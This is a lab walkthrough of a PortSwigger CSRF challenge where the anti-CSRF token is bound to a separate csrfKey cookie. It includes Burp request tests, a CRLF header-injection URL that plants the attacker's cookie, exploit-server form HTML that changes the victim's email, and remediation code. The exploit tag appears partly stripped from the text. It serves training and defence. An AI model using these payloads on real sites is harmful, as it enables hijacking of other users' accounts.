## Challenge Overview

* **Challenge Name**: CSRF where token is tied to non-session cookie
* **Category**: Cross-Site Request Forgery (CSRF) / Client-Side Security
* **Level**: Practitioner
* **Target Endpoint**: `POST /my-account/change-email`
* **Provided Credentials**: `wiener:peter` (Attacker Account), `carlos:montoya` (Victim Account)
* **Objective**: Exploit a CSRF vulnerability where token validation is decoupled from the user's session cookie and tied to a secondary `csrfKey` cookie, chaining with an HTTP response header injection (CRLF) primitive to plant a matching cookie into the victim's browser and change their email address.

---

## 1. Core Fundamentals

### 1.1. The Decoupling of Identity vs. CSRF Integrity

A secure implementation of the **Synchronizer Token Pattern** requires that the anti-CSRF token be strictly bound to the authenticated user's session identifier.

In this scenario, the application attempts to validate the token against a cookie; however, **it binds the token to a secondary, non-session cookie (`csrfKey`) rather than the session authentication cookie (`session`)**.

This architectural flaw creates two completely decoupled validation tracks on the backend:
1. **User Identity Track:** Governed exclusively by the `session` cookie. The backend parses `session` to determine *which user* is performing the action.
2. **CSRF Integrity Track:** Governed exclusively by the pair `(csrfKey, csrf)`. The backend inspects `csrfKey` from the cookie header and verifies that the body parameter `csrf` matches the token registered for that key.

```text
+-----------------------------------------------------------------------------------------+
|                               Decoupled Validation Architecture                         |
+-----------------------------------------------------------------------------------------+
| Request Cookie: session=CARLOS_SESSION   ──► [Identity Pipeline]  ──► User: Carlos      |
| Request Cookie: csrfKey=WIENER_KEY       ──┐                                            |
| Request Body:   csrf=WIENER_TOKEN        ──┴─► [CSRF Pipeline]     ──► Match? YES!       |
+-----------------------------------------------------------------------------------------+
| RESULT: Backend executes the state change on CARLOS because CSRF check passed!          |
+-----------------------------------------------------------------------------------------+
```

Because the application never cross-references `csrfKey` against `session`, an attacker can pair their own valid `csrfKey` and `csrf` token and apply them to an action executed by an arbitrary victim.

### 1.2. The Exploit Obstacle: Cross-Origin Cookie Injection

Under standard web security boundaries (Same-Origin Policy and cookie scoping rules), an attacker hosting a page at an external origin (`exploit-server.net`) **cannot directly write cookies onto the target domain** (`web-security-academy.net`).

To execute this attack, the attacker must discover a secondary vulnerability on the target origin that enables **Cookie Jar Injection**. In this challenge, that secondary primitive is an **HTTP Response Header Injection (CRLF Injection)** in the application's search feature.

### 1.3. HTTP Response Splitting & CRLF Injection Mechanics

HTTP headers are delimited by Carriage Return (`\r`, ASCII `0x0D`, `%0d`) and Line Feed (`\n`, ASCII `0x0A`, `%0a`) sequences (`\r\n`).

If an application reflects untrusted user input directly into an HTTP response header (e.g., `Set-Cookie: LastSearchTerm=<USER_INPUT>`) without sanitizing CRLF characters, an attacker can inject `%0d%0a` to terminate the current header line and inject arbitrary supplementary headers:

```http
Set-Cookie: LastSearchTerm=test\r\nSet-Cookie: csrfKey=ATTACKER_KEY; SameSite=None
```

When the victim's browser processes this HTTP response, it treats `Set-Cookie: csrfKey=...` as a legitimate server directive, writing the attacker-controlled `csrfKey` into its local cookie jar for the target domain.

### 1.4. The Three Classical Preconditions for CSRF

```text
+-----------------------------------------------------------------------------------------+
|                                CSRF Pre-Conditions Matrix                               |
+-----------------------------------------------------------------------------------------+
| Condition 1: Relevant Action            --> YES: POST /my-account/change-email          |
| Condition 2: Cookie-based Session       --> YES: Authenticated via "Cookie: session=..."|
| Condition 3: No Unpredictable Data      --> BYPASSED: Attacker supplies valid pair      |
|                                             (csrfKey + csrf) and plants csrfKey via CRLF|
+-----------------------------------------------------------------------------------------+
| VERDICT: VULNERABLE VIA CHAINED CSRF + HTTP HEADER INJECTION                            |
+-----------------------------------------------------------------------------------------+
```

---

## 2. Attack Architecture / Threat Model

### 2.1. Trust Boundaries & Chained Exploitation

The vulnerability exploits a breakdown across two independent boundaries:
1. **Application Logic Boundary:** CSRF token verification does not validate ownership against the authenticated identity session.
2. **Transport Header Boundary:** The search feature fails to validate header value boundaries, allowing external input to set ambient cookies on the target domain.

### 2.2. Attack Flow Diagram

```text
[ Phase 0: Harvesting ]
Attacker (wiener) ──► Obtains fresh pair: (csrfKey=HGBWgLx..., csrf=bc5kxGJ6...)

[ Phase 1: Cookie Injection via CRLF ]
Victim (carlos) ──► Visits Exploit URL (/exploit)
       │
       │  Exploit page loads  targeting search endpoint with CRLF payload:
       ▼
Target Application Server (Search Feature)
       │  GET /?search=test%0d%0aSet-Cookie:%20csrfKey=HGBWgLx...;%20SameSite=None
       │
       └── Returns HTTP 200 OK:
           Set-Cookie: LastSearchTerm=test
           Set-Cookie: csrfKey=HGBWgLx...; SameSite=None
       ▼
[ Victim Cookie Jar Updated: csrfKey set to Attacker's Harvested Key ]

[ Phase 2: Form Dispatch via onerror ]
Image fails to render ──► onerror handler executes document.forms[0].submit()
       │
       │  Cross-origin POST /my-account/change-email:
       ▼
Target Application Server (Change Email Endpoint)
       │
       ├── Reads Cookie: session=CARLOS_SESSION  ──► Identity: Carlos!
       ├── Reads Cookie: csrfKey=HGBWgLx...      ──┐
       ├── Reads Body:   csrf=bc5kxGJ6...        ──┴─► Pair matches!
       └── State change committed!
       ▼
[ State Mutated: Carlos's Email Changed to hacker@gmail.com ]
```

### 2.3. Root Cause Analysis

1. **Decoupled Identity Verification:** The database or cache stores `(csrfKey, csrf)` relationships independently of `user_id` or `session_id`.
2. **Unsanitized Header Reflection:** The search endpoint reflects user input into `Set-Cookie` headers without stripping `0x0D` and `0x0A` characters.

---

## 3. Vulnerability Exploitation

### Phase 1: Baseline Multi-Account Traffic Inspection

We authenticate two separate accounts to compare session management:
* **Attacker Account:** `wiener:peter` (Normal browser window)
* **Victim Account:** `carlos:montoya` (Private / Incognito window)

#### Inspecting Wiener's Request (Burp Repeater):



```http
POST /my-account/change-email HTTP/2
Host: 0a90005803c0cff3803a03c8009b0076.web-security-academy.net
Cookie: csrfKey=nx3yPxIaxSOCFd0eT3pFWlunsFOXbPKO; session=berYpVI8r9XK27DY9kEQ0gCUVV9nioUD
Content-Length: 65
Content-Type: application/x-www-form-urlencoded

email=wiener123%40gmail.com&csrf=Yx3dyX0lnVr7LlGA3UFXvQO8yKoDklp5
```

* **Observation:** The request transmits **two distinct cookies**: `session` (identity) and `csrfKey` (anti-CSRF tracking key).
* The request body contains the `csrf` token parameter.

#### Inspecting Carlos's Request (Browser DevTools):




From Figure 2 and Figure 3, we record Carlos's parameters:
* **Carlos's Cookies:** `csrfKey=7NR02Pcgs81cic7TW28JZh2QkpiFjSjD; session=fzenEDKUP7jGtQCxiMQxvBMpVeDjDO65`
* **Carlos's Body:** `email=carlos321@gmail.com&csrf=d3z1Vld5xOw4y4BdP6po1cmgKKc2RmhW`

---

### Phase 2: Hypothesis Verification in Burp Repeater

We execute three targeted tests in Burp Repeater to map out backend verification behavior:

#### Test 2.1: Tampered Token with Valid Cookie
We supply an arbitrary token value `csrf=12345678`:



```http
POST /my-account/change-email HTTP/2
Cookie: csrfKey=nx3yPxIaxSOCFd0eT3pFWlunsFOXbPKO; session=VecXAYXywoCqW5HTlv2nn0QZu76uAoUP

email=wiener123%40gmail.com&csrf=12345678
```
* **Result:** `HTTP/2 400 Bad Request: "Invalid CSRF token"`.
* **Conclusion:** The token is actively verified against `csrfKey`.

#### Test 2.2: Mismatched Token Pair Across Users
We transmit Carlos's `csrfKey` alongside Wiener's `csrf` token:



```http
POST /my-account/change-email HTTP/2
Cookie: csrfKey=7NR02Pcgs81cic7TW28JZh2QkpiFjSjD; session=VecXAYXywoCqW5HTlv2nn0QZu76uAoUP

email=wiener123%40gmail.com&csrf=Yx3dyX0lnVr7LlGA3UFXvQO8yKoDklp5
```
* **Result:** `HTTP/2 400 Bad Request: "Invalid CSRF token"`.
* **Conclusion:** The body token **must** correspond to the specific `csrfKey` transmitted in the cookie header.

#### Test 2.3: Matched Token Pair on Foreign Session (The Flaw)
We supply **both Carlos's `csrfKey` AND Carlos's `csrf` token**, but submit them under **Wiener's authenticated session cookie**:



```http
POST /my-account/change-email HTTP/2
Cookie: csrfKey=7NR02Pcgs81cic7TW28JZh2QkpiFjSjD; session=VecXAYXywoCqW5HTlv2nn0QZu76uAoUP
Content-Length: 65
Content-Type: application/x-www-form-urlencoded

email=wiener123%40gmail.com&csrf=d3z1Vld5xOw4y4BdP6po1cmgKKc2RmhW
```

* **Server Response:**
  ```http
  HTTP/2 302 Found
  Location: /my-account?id=wiener
  Content-Length: 0
  ```
* **Critical Finding:** The server returns `302 Found` and mutates Wiener's email! 
* The backend confirmed that `d3z1Vld5...` matches `7NR02Pcg...` and completely neglected to check whether that key was issued to the user identified by `session=VecXAY...`.

---

### Phase 3: Discovering and Proving Cookie Injection via CRLF

To weaponize this against a victim, we must plant our `csrfKey` into the victim's browser. We inspect the search function:

#### Baseline Search Behavior:



```http
GET /?search=wiener+is+the+best HTTP/2
```
* **Server Response:**
  ```http
  HTTP/2 200 OK
  Set-Cookie: LastSearchTerm=wiener is the best; Secure; HttpOnly
  ```
The user's query is reflected verbatim within the `Set-Cookie` response header.

#### CRLF Injection Verification:
We inject encoded CRLF characters (`%0d%0a` / `\r\n`) to append an independent `Set-Cookie` header:



```http
GET /?search=wiener+is+the+best%0d%0aSet-Cookie:%20csrfKey=TESTING123%3b%20SameSite=None HTTP/2
```

* **Server Response:**
  ```http
  HTTP/2 200 OK
  Set-Cookie: LastSearchTerm=wiener is the best
  Set-Cookie: csrfKey=TESTING123; SameSite=None; Secure; HttpOnly
  ```
The server parses the newline and outputs an independent `Set-Cookie: csrfKey=TESTING123` header, confirming an HTTP header injection primitive.

---

### Phase 4: Harvesting a Fresh, Unused Token Pair

Because tokens are consumed upon use, any pair validated in Repeater is invalidated. We harvest a **fresh, unused pair** from the attacker's account (`wiener`).

In Burp Repeater, we issue a `GET /my-account?id=wiener` request **without the `csrfKey` cookie**, forcing the server to issue a new key:



```http
GET /my-account?id=wiener HTTP/2
Cookie: session=VecXAYXywoCqW5HTlv2nn0QZu76uAoUP
```
* **Server Response Header:**
  ```http
  Set-Cookie: csrfKey=HGBWgLxQoOYXQHPqj139VLq34P2DJIvB; Secure; HttpOnly; SameSite=None
  ```
* **Fresh `csrfKey`:** `HGBWgLxQoOYXQHPqj139VLq34P2DJIvB`

Next, we inspect the response body of the same request to extract the matching `csrf` token:



```html
<input required type="hidden" name="csrf" value="bc5kxGJ6DfRwWkKjAqfdNKxr8CmsrB5L">
```
* **Fresh `csrf` Token:** `bc5kxGJ6DfRwWkKjAqfdNKxr8CmsrB5L`

---

### Phase 5: Weaponizing the Exploit on Exploit Server

We navigate to the PortSwigger **Exploit Server** (`https://exploit-...exploit-server.net/exploit`) and configure the payload:



#### Exploit Server Payload Configuration:
* **File:** `/exploit`
* **Head:**
  ```http
  HTTP/1.1 200 OK
  Content-Type: text/html; charset=utf-8
  ```
* **Body:**
  ```html
  <form id="csrfForm" action="https://0a90005803c0cff3803a03c8009b0076.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker@gmail.com" />
      <input type="hidden" name="csrf" value="bc5kxGJ6DfRwWkKjAqfdNKxr8CmsrB5L" />
  </form>

  
  ```

#### Detailed Breakdown of Exploit Mechanics:
1. **The `<form id="csrfForm">` Element:**
   * Targets the endpoint `action=".../my-account/change-email"` via `method="POST"`.
   * Supplies the attacker's email (`hacker@gmail.com`) and fresh token (`bc5kxGJ6DfRwWkKjAqfdNKxr8CmsrB5L`).
   * Explicitly identified via `id="csrfForm"`.
2. **The `` Tag (The CRLF Injection Vector):**
   * Targets the search endpoint: `/?search=test%0d%0aSet-Cookie:%20csrfKey=HGBWgLxQoOYXQHPqj139VLq34P2DJIvB%3b%20SameSite=None`.
   * **Encoding Requirement:** `%0d%0a` is essential to prevent browser URL normalization from stripping literal newlines.
   * `SameSite=None`: Ensures the cookie is permitted on subsequent cross-site requests.
3. **The `onerror` Synchronization Handler:**
   * The search response is an HTML page, not an image format, causing the `` tag to fail parsing and trigger `onerror`.
   * **Timing Synchronization:** The `onerror` event executes **strictly after** the search HTTP response headers have been processed by the browser, ensuring `csrfKey` is written into the victim's cookie jar **before** the form POST is dispatched.

---

### Phase 6: Delivering Exploit to Victim & Verification

1. Click **Store** to persist the payload on the Exploit Server.
2. Click **Deliver exploit to victim**.



#### Execution Flow & Lab Resolution:
1. The simulated victim bot (`carlos`) navigates to `/exploit`.
2. The browser loads the `` URL, issuing the search request with CRLF injection.
3. The application sets `Set-Cookie: csrfKey=HGBWgLx...` on the victim's browser.
4. Parsing fails on the non-image data, firing `onerror`.
5. The handler submits `csrfForm`, dispatching the POST request to `/my-account/change-email`.
6. Ambient credentials transmit Carlos's `session` cookie alongside the injected `csrfKey`.
7. The backend validates the submitted `csrf` token against `csrfKey`. Because both were harvested together, the check succeeds.
8. The server commits the email change to `hacker@gmail.com`, resolving the lab (*Figure 12*).

---

## 4. Remediation Strategies

Remediating this vulnerability requires fixing both the architectural token validation flaw and the transport-layer header injection bug.

```text
+-----------------------------------------------------------------------------------------+
|                              Multi-Layered CSRF Defenses                                |
+-----------------------------------------------------------------------------------------+
| 1. Session Binding       : Store tokens directly in the user's private session object   |
| 2. CRLF Sanitization     : Strip \r and \n characters from all reflected header values  |
| 3. Cookie Hardening      : Enforce __Host- cookie prefixes and SameSite=Lax attributes  |
| 4. Step-Up Security      : Require password confirmation on sensitive profile mutations |
+-----------------------------------------------------------------------------------------+
```

### 4.1. Bind CSRF Tokens Directly to the User Session (Primary Fix)

Do not maintain decoupled tracking cookies for CSRF validation. The token must be stored directly within the server-side session object:

```javascript
// SECURE CSRF IMPLEMENTATION (Node.js / Express)
function changeEmailHandler(req, res) {
    const submittedToken = req.body.csrf;
    const sessionToken = req.session.csrfToken; // Strictly retrieved from authenticated session

    if (!submittedToken || submittedToken !== sessionToken) {
        return res.status(403).json({ error: "Invalid CSRF token for this user session." });
    }

    updateUserEmail(req.session.userId, req.body.email);
    return res.redirect('/my-account');
}
```

### 4.2. Prevent HTTP Response Header Injection (CRLF Sanitization)

Never reflect raw user input into HTTP response headers or cookie values:
1. Strip or reject any characters matching `\r` (`0x0D`) and `\n` (`0x0A`).
2. Utilize framework-native cookie utilities that enforce header boundaries automatically:

```javascript
// SECURE COOKIE SETTING (Express.js example)
const cleanSearchTerm = searchTerm.replace(/[\r\n]/g, '');
res.cookie('LastSearchTerm', cleanSearchTerm, { 
    httpOnly: true, 
    secure: true, 
    sameSite: 'lax' 
});
```

### 4.3. Use the `__Host-` Cookie Prefix

Protect sensitive session cookies against cross-domain and subdomain tampering using the `__Host-` prefix:
```http
Set-Cookie: __Host-session=...; Secure; Path=/
```
Browsers enforce that `__Host-` cookies:
* Cannot be overwritten from subdomains.
* Must include `Path=/`.
* Must be marked with `Secure`.

### 4.4. SameSite Cookie Attributes & Re-Authentication

* Configure all session cookies with `SameSite=Lax` or `SameSite=Strict`.
* Enforce **current password confirmation** or MFA re-authentication for sensitive account mutations (email, password, payment methods).
